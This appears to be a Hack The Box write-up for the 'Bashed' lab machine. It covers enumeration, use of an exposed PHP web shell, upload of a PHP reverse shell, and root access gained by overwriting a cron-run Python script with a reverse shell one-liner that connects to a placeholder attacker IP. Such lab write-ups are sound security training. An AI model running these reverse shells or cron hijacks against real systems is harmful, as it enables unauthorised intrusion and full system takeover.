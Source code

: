 ```yaml
---
title: "Bashed"
tags:
  - Easy
  - Linux
  - PHP
  - Web Shell
  - File Upload
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.68 |  | [Bashed](https://app.hackthebox.com/machines/bashed) |  |

---

## Enumeration

### Nmap

```
nmap -T4 -p- -sC -sV -oN nmap/bashed 10.10.10.68

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-10 00:22 EST
Nmap scan report for 10.10.10.68
Host is up (0.074s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### Web Enumeration

The target hosts a webservice on port 80. Navigating to http://10.10.10.68, we find a simple website title "Arrexel's Development Site". We may assume Arrexel is the user.

Using Gobuster for directory enumeration revealed several endpoints:
> **_NOTE:_** commonly used wordlist for directory and subdomain enumeration

```
gobuster dir -u 10.10.10.68 -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt 
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
Progress: 19966 / 19967 (99.99%)
===============================================================
Finished
===============================================================
```

The `/php` directory displays an exposed sendMail.php.
![sendmail](../assets/Bashed/screenshot.php.png)

The `/dev` directory contained a webshell named phpbash. Accessing it gave us an interactive shell as the `www-data` user:

![phpbash](../assets/Bashed/screenshot.dev.png)

## Foothold

We run `sudo -l` to display the sudo privileges of the current user and notice that the scriptmanager can run all. We execute `sudo -u scriptmanager bash -i` to switch to `scriptmanager` user, but the interactive web shell is not persistent.

![www-data](../assets/Bashed/screenshot.www-data.png)

From our enumeration, we discovered the `uploads` directory. Before attempting to upload a reverse shell, we will test whether file uploads are allowed and accessible.

![uploads](../assets/Bashed/screenshot.uploads.png)

We verify that the file is accessible by navigating to `http://10.10.10.68/uploads/test`, confirming that we could upload and execute files in this directory.

We copied the PHP reverse shell script from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and create a file called `shell.php`. We must ensure that the IP address and port are changed accordingly.

```
$ip = <Your_IP>;  // CHANGE THIS
$port = <1234>;       // CHANGE THIS
```

We hosted the shell.php file using Python's HTTP server. This makes the file available for download from the target machine. Using the webshell (`phpbash`), we upload the file from our attaching machine at port 80 and catch the reverse shell connection, by starting a netcat listener on port 1234. Finally, we navigate to `http://10.10.10.68/uploads/shell.php` to trigger the reverse shell to gain an persistent interactive shell.

```
python3 -m http.server 80  

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.68 - - [11/Jan/2025 16:18:58] "GET /shell.php HTTP/1.1" 200 -
```
![uploads-reverse-shell](../assets/Bashed/screenshot.uploads-reverse-shell.png)

```
nc -lnvp 1234
```

![persistent](../assets/Bashed/screenshot.persistent.png)

We execute the code to switch to `scriptmanager` user and succeed. We run `ls -la` to see a list of ownership for availabe files. `/scripts` directory contained files owned by `scriptmanager`.

```
sudo -u scriptmanager bash -i
scriptmanager@bashed:/$ ls -la
ls -la
total 92
...
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jan 10 20:21 scripts
...
```

## Privilege Escalation

Running `ls -la` on `/scripts` we obeserve a cron job executed `test.py` every minute. Any modifications will be triggered frequently and will allow us to escalate privilege.

![scripts](../assets/Bashed/screenshot.scripts.png)

We modify `test.py` with reverse shell script. 
> **_NOTE:_**  The `vi` editor was cumbersome in this environment because it was not reacting to typical vi hotkeys. As a result, we opt to use `echo` for a quicker and more efficient approach to overwrite the file. 

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((<Your_IP>,1337));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; 
pty.spawn("/bin/bash")" > test.py
```
We set up a listener on port 1337 and run `test.py` to initate reverse shell.

```
nc -lvnp 1337
```
```
python3 test.py
```
After the cron job triggered the modified `test.py`, we established a root shell, successfully escalating our privileges.

![root](../assets/Bashed/screenshot.root.png)

The user and root flag are located in a `/home/arrexel/user.txt` and `root/root.txt`, respectively.